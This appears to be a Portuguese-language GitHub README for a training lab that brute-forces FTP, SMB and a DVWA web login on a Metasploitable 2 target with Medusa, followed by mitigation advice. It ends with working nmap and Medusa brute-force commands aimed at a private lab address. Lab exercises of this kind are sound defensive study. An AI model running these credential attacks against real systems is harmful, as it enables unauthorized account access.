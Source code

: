 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição

Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos

- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba & VSFTPD** - Serviços de rede

## 📊 Resultados
✅ Credenciais fracas identificadas com sucesso

✅ Serviços vulneráveis expostos

✅ Demonstração da eficácia de ataques de força bruta

✅ Acesso obtido em serviços FTP e SMB

✅ Enumeração de shares Samba bem-sucedida

## 🛡️ Medidas de Mitigação
🔒 Implementar políticas de senha forte

⚠️ Configurar bloqueio de conta após tentativas falhas

🔐 Utilizar autenticação multifator (MFA)

📊 Monitorar logs de acesso

🌐 Restringir acesso por rede (firewall)

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'

